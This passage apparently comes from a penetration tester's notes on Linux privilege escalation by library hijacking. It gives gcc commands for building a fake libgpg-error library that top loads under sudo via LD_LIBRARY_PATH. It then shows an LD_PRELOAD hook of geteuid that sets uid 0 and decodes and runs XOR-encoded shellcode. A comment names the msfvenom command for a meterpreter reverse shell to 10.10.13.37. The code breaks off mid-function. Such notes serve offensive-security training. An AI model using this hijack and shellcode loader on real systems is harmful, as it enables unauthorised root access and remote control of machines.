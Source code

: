 Prepare the listener, compile, export `LD_LIBRARY_PATH` and run top:

```
$ gcc -Wall -fPIC -c -o fakelib.o fakelib.c
$ gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 fakelib.o
$ sudo LD_LIBRARY_PATH=/home/snovvcrash/ldlib top
```


#### `LD_PRELOAD`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c)
* [https://github.com/MatheuZSecurity/ElfDoor-gcc](https://github.com/MatheuZSecurity/ElfDoor-gcc)

For example, target executable will be `/bin/cp`.

Determine which functions are executed by `/bin/cp` via `LD_PRELOAD`:

```
$ ltrace cp
...
getuid()
...
```

We'll be hooking the `getuid()` function:

{% code title="evilgetuid.c" %}
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

uid_t geteuid(void)
{
		typeof(geteuid) *getuid_orig;
		getuid_orig = dlsym(RTLD_NEXT, "geteuid");

		if (fork() == 0) // if inside the forked process
		{
				setuid(0);
				setgid(0);
				printf("Function hooked!\n");

				int bufsize = (int)sizeof(buf);
				for (int i = 0; i < bufsize-1; i++) {
					buf[i] = buf[i] ^ 'a';
				}

				intptr_t pagesize = sysconf(_SC_PAGESIZE);
				if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC)) {
						perror("mprotect");
						return -1;
				}

				int (*ret)() = (int(*)())buf;
				ret();
```